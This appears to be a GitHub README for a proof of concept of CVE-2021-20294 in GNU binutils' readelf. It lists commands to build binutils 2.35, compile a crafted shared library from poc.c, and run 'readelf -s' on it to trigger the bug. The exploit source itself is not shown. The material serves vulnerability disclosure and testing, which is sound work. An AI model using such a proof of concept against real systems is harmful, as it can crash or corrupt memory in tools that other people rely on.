

# CVE-2021-20294-POC
> Jan 21 2023, Altin (tin-z), github.com/tin-z

### Poc ###

 - download and compile

```bash
wget https://ftp.gnu.org/gnu/binutils/binutils-2.35.tar.gz && tar -xzvf binutils-2.35.tar.gz
cd binutils-2.35 && ./configure && make && cd ..
gcc -shared -fPIC poc.c -o poc.so -Wl,--version-script=poc.ver
```

 - launch the poc `./binutils-2.35/binutils/readelf -s poc.so`




### details ###

 - [details.md](./details.md)


